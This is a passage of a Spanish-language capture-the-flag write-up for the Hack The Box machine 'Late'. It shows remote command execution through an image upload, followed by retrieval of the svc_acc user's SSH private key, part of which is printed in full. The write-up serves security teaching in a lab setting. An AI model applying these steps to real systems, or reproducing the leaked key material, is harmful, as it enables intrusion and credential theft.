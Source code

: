 Ahora lo que vamos a hacer es probar con este **Payload** que encontramos en **Payload all the things** para ver si podemos ejecutar el comando `id`

![](/assets/images/htb-writeup-late/web5.png)

Vemos que tenemos ejecución remota de comandos sabemos que ese usuario existe así que lo que vamos a hacer es decirle que nos muestre su `id_rsa` para conectarnos por `SSH`

```bash
❯ cat results.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: results.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
   2   │ 
   3   │ </p>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Vamos a probar con este 

![](/assets/images/htb-writeup-late/web6.png)

Bueno si también te llega a pasar este tipo de errores es por que se tiene que mejorar la foto xd así volveremos a tomar otra

![](/assets/images/htb-writeup-late/web7.png)

Bueno después de estar probando subiendo imágenes me funciono cuando le concatene un comando te dejo aquí la imagen por si gustas usarla

![](/assets/images/htb-writeup-late/web9.png)

Ahora tenemos la `id_rsa`

```bash
❯ catn results.txt | tail -n +2 | sed '$d'
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
```